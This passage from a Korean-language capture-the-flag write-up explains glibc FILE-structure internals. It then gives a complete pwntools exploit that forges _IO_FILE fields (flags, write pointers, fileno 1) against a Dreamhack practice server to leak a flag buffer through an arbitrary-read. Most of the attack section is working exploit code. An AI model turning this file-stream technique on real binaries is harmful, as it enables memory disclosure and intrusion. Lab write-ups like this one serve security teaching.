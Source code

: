 ```c
  }
      to_do -= count;
      data = (void *) ((char *) data + count);
    }
  n -= to_do;
  if (f->_offset >= 0)
    f->_offset += n;
  return n;
}
```

전달되는 인자를 파일 구조체로 표현하면   

```c
write(f->_fileno, _IO_write_base, _IO_write_ptr - _IO_write_base);
```

이렇게 깔끔하게 정리가 가능하다.   

이제 익스플로잇 코드를 짜볼건데 여기서 중요한게 하나 있다.  

아까 flag 를 검증하는 코드에 의해 `_IO_CURRENTLY_PUTTING`가 설정되어 있지 않으면   
`_IO_write_base`, `_IO_write_end`, `_IO_write_ptr` 필드를 다른 값으로 변조한다 했으므로 0xfbad0000과 0x800을 포함한 값으로 변경해야한다.   

fp->_IO_read_end 와 fp->_IO_write_base를 같은지 검사하는 코드도 있었으므로 같게 맞춰주고 표준 출력 (1) 을 사용해서 내용을 출력시켜준다.  

<br>

**최종 익스플로잇 코드**

```python
from pwn import *
import time

p = remote('host8.host1.dreamhack.games', 23743)
e = ELF('./iofile_aar')

flag_buf = e.symbols['flag_buf']

print("flag_buf addr : ", hex(flag_buf))

payload = p64(0xfbad0800)
payload += p64(0) # _IO_read_ptr
payload += p64(flag_buf) # _IO_read_end
payload += p64(0) # _IO_read_base
payload += p64(flag_buf) # _IO_write_base
payload += p64(flag_buf + 1024) # _IO_write_ptr
payload += p64(0) # _IO_write_end
payload += p64(0) # _IO_buf_base
payload += p64(0) # _IO_buf_end
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(1) # stdout

p.sendlineafter(b'Data: ', payload)

p.interactive()

```


<img width="1388" height="476" alt="image" src="https://github.com/user-attachments/assets/e7305eb7-41df-4413-9d03-dc0ece1df45f" />


 이렇게 답이 나온다.
